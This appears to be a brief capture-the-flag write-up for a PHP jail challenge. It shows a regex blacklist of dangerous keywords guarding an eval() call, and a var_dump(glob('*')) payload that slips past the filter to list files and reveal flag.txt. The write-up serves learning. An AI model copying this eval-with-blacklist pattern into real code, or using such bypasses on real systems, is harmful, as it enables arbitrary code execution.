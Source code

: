 
This PHP setup a simple jail challenge .

```php
$var = trim(fgets(STDIN));
```
**1.It asks for your input.<br>**
```php
function filter($var) {
        if(preg_match('/(`|include|read|flag|open|exec|pass|system|\$)/i', $var)) {
                return false;
        }
        return true;
}
```
**2.It checks your input: if its containing (like system, read, flag, and even the $ sign for variables).**<br>
**3.If your input is "clean," it runs your input as PHP code.**

## 💥 Exploit Analysis <br>
```php
function filter($var) {
        if(preg_match('/(`|include|read|flag|open|exec|pass|system|\$)/i', $var)) {
                return false;
        }
        return true;
}
```
**This function basically blacklist filter used to prevent users from executing dangerous commands**

**If one of these found in input its marks as "false" and showing "[!] Restricted characters has been used";**
```php
 if(filter($var)) {
        eval($var);
 }
```
**but if it pass the blacklisted it will return a true and your input will be pass and executing on eval($var).**

## ⚙️ Exploit Strategy
```php
var_dump(glob("*"))
```
**1. What its basically do its a glob("*"): Lists all files in the current directory.**

**2. var_dump(...): Prints the full structure of the result — data type, string length, and values**

```
array(2) {
  [0]=>
  string(8) "flag.txt"
  [1]=>
  string(10) "jail-4.php"
}
```
**Yeppppppii,the nc literally showing that the flag.txt was found on array 0 and we just need to call find a way to call the flag on array[0].** 

